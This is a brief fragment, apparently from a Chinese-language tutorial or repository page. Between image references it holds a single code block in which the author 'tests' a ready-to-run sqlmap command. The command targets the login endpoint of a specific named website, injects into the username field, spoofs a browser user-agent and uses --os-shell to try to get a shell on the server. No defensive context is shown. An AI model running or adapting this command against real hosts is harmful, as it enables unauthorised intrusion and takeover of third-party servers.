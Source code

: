 ![](assets/V319Nq.png)



```
构建好后我们先自己手动运行一个跑一下测试
sqlmap -u "http://_dmarc.gtr888club.com:8015/Login/ValidateLogin" --method POST --data "userName=qq12580bvb*&password=a"  --user-agent  " Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36" --batch  --threads  10 --os-shell
```

![](assets/V31mTH.png)